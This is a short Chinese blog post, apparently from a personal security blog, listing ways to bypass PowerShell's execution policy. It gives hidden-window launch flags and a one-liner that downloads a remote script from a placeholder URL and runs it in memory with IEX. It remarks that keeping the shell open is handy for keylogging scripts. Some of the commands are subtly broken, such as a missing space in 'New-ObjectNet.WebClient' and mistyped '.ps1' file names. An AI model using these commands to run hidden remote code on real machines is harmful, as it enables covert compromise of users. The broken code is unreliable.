 # PowerShell执行策略的简单绕过

  
#### 执行策略
```bash
Get-ExecutionPolicy   #查看当前策略

# 四种
- Restricted        #脚本不能运行（默认）
- RemoteSigned      #本地创建的脚本可以运行，但从网上下载的脚本不能运行
- AllSigned         #仅当脚本由信任的发布者签名时才能运行
- Unrestricted      #允许所有的脚本运行

# 设置PowerShell执行策略
Set-ExecutionPolicy <策略名>
```
  
#### 绕过
1.
```
# 先设置当前用户的执行策略为Unrestricted，也算是去更改了当前的全局策略
Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Unrestricted 
# 再执行脚本
```

2.
```
# 或是下面这种，-Windowstyle hidden 可以让我们的执行无任何弹窗, -NoProfile不加载当前用户配置
powershell.exe -executionpolicy bypass -Windowstyle hidden -Noninteractive -nologo -NoProfile -File xxx.sp1

# Noexit  执行结束不退出shell(对键盘记录等脚本非常有用)
```

3.
```
# 绕过本地权限执行
PowerShell.exe -ExecutionPolicy Bypass -File xxx.sp11
```

4.
```
# 用IEX下载远程PS1脚本绕过
PowerShell.exe -ExecutionPolicy Bypass  -Windowstyle hidden -Noninteractive -NoProfile IEX(New-ObjectNet.WebClient).DownloadString("http://xxxxx.xxx.ps1");[Parameters]
```

5.更多执行策略绕过: 
```
https://blog.netspi.com/15-ways-to-bypass-the-powershell-execution-policy
```


---

> 作者: [剑胆琴心](http://geoer.cn)  
> URL: https://shuai06.github.io/powershell%E6%89%A7%E8%A1%8C%E7%AD%96%E7%95%A5%E7%9A%84%E7%AE%80%E5%8D%95%E7%BB%95%E8%BF%87/  

